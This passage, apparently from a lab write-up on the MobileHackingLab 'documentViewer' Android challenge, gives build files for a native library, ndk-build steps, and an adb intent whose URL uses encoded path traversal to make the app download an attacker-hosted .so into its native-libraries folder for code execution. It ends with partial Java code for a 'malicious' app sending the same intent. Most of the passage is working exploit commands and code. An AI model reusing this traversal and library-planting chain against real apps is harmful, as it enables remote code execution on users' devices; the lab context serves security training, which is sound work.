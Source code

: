 ```C
```

In `Android.mk`
```markdown
LOCAL_PATH := $(call my-dir)

include $(CLEAR_VARS)

LOCAL_MODULE    := libdocviewer_pro
LOCAL_SRC_FILES := libdocviewer_pro.c
LOCAL_LDLIBS    := -llog
LOCAL_CFLAGS    := -std=c11

include $(BUILD_SHARED_LIBRARY)

```

In `Application.mk`
```markdown
APP_ABI := all
APP_PLATFORM := android-24
```

Compile it with
```bash
ndk-build clean && ndk-build
```

You must see an output like this
```bash
[arm64-v8a] Install        : libdocviewer_pro.so => libs/arm64-v8a/libdocviewer_pro.so
[riscv64] Install        : libdocviewer_pro.so => libs/riscv64/libdocviewer_pro.so
[x86_64] Install        : libdocviewer_pro.so => libs/x86_64/libdocviewer_pro.so
[armeabi-v7a] Install        : libdocviewer_pro.so => libs/armeabi-v7a/libdocviewer_pro.so
[x86] Install        : libdocviewer_pro.so => libs/x86/libdocviewer_pro.so
```

Then, update your work directory for host the `.so` file
```bash
/documentViewer/data/data/com.mobilehackinglab.documentviewer/files/native-libraries/arm64-v8a  ls
 .   ..   libdocviewer_pro.so
```

And, as the `.txt` we just need send it through a **intent**.
```bash
adb shell am start \
  -n com.mobilehackinglab.documentviewer/.MainActivity \
  -a android.intent.action.VIEW \
  -d "http://192.168.18.44:8081/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Farm64-v8a%2Flibdocviewer_pro.so"
```

![[documentViewer5.png]]

That work!
Here's a **Java code** if you prefer use an "malicious" app:
```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Uri uri = Uri.parse("http://<yourIP>:<port>/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2F<yourCPUABI>%2Flibdocviewer_pro.so");
        Intent intent = new Intent(Intent.ACTION_VIEW);
```
